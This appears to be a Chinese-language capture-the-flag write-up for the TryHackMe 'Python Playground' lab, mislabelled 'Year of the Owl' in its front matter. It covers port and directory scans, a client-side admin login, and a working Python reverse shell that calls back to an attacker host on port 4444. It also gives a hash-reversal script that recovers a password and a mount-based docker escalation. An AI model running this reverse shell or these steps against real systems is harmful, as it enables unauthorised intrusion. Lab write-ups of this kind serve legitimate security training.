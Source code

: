 ```yaml
---
sidebar_position: 177
tags: [Medium, Linux, 密码学, docker]
title: "Year of the Owl"
description: "Year of the Owl"
sidebar_label: "Year of the Owl"
slug: /tryhackme/177
---
```


# Python Playground

## 端口扫描

```bash
root@ip-10-10-149-250:~/pythonplayground# nmap -sTCV -p- --min-rate 1000 10.10.250.38

Starting Nmap 7.60 ( https://nmap.org ) at 2023-11-06 15:02 GMT
Nmap scan report for ip-10-10-250-38.eu-west-1.compute.internal (10.10.250.38)
Host is up (0.0036s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (EdDSA)
80/tcp open  http    Node.js Express framework
|_http-title: Python Playground!
MAC Address: 02:A4:72:EB:8E:AD (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.04 seconds
```

## 80

```bash
root@ip-10-10-149-250:~/pythonplayground# gobuster dir -u http://10.10.250.38/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.250.38/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,txt
[+] Timeout:        10s
===============================================================
2023/11/06 15:11:25 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.html (Status: 200)
/signup.html (Status: 200)
/admin.html (Status: 200)
===============================================================
2023/11/06 15:16:50 Finished
===============================================================
```

访问主页面内容, 这是一个 SSTI 的靶机, 接着查看登陆和注册页面我发现已经不允许登陆, 之后访问 `admin.html` 页面, 我发现其中是基于前端校验的, 从下面的代码可以看出如果密码正确其应该等于这个 hash 值, 同时当我们登陆成功重定向到另一个页面, 估计这里就是 SSTI 的位置了

![image-20240709204556431](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204557.png)

![image-20240709204605321](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204606.png)

从上面可以看出这是一个 python 框, 可以执行命令 , 

![image-20240709204613543](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204614.png)

## 后渗透

### root(docker)

从上面来看可以借此来获取一个 Shell

```python
socket = __import__("socket")
subprocess = __import__("subprocess")
os = __import__("os")
pty = __import__("pty")

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.99.12",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/bash")
```

![image-20240709204634599](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204635.png)

### root(docker) —> connor(172.17.0.1)

在之前获取到 `admin.html` 页面是前端校验, 在哪里获取到一个 hash 值, 因此可以尝试将其逆向, 得到原文来进行 connor 用户登陆

```python
hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"

#Strings to Integer Array
def rev_int_to_str(temp):
    strs = []
    for i in temp:
       strs.append(ord(i)-97)
    return strs
#Integer Array to strings
def rev_str_to_int(temp):
    strs = ""
    for i in range(0,len(temp)-1,2):
       temp2 = 0
       temp2 = int(temp[i]*26)
       temp2 += int(temp[i+1])
       strs += chr(temp2)
    return strs

password = rev_str_to_int(rev_int_to_str(rev_str_to_int(rev_int_to_str(hash))))
print(password)

# spaghetti1245
```

![image-20240709204649744](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204651.png)

### connor(172.17.0.1) —> root(172.17.0.1)

查看进程信息可以发现 docker 环境是 root 用户启动的

![image-20240709204702183](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204703.png)

基于此可以尝试查看挂载信息, 发现

```bash
(remote) root@playgroundweb:/# mount
/dev/xvda2 on /mnt/log type ext4 (rw,relatime,data=ordered)
/dev/xvda2 on /etc/resolv.conf type ext4 (rw,relatime,data=ordered)
/dev/xvda2 on /etc/hostname type ext4 (rw,relatime,data=ordered)
/dev/xvda2 on /etc/hosts type ext4 (rw,relatime,data=ordered)
```

通过查看我发现这个目录是共享目录因此可以利用此来进行提权

![image-20240709204708586](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204709.png)

![image-20240709204712267](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204713.png)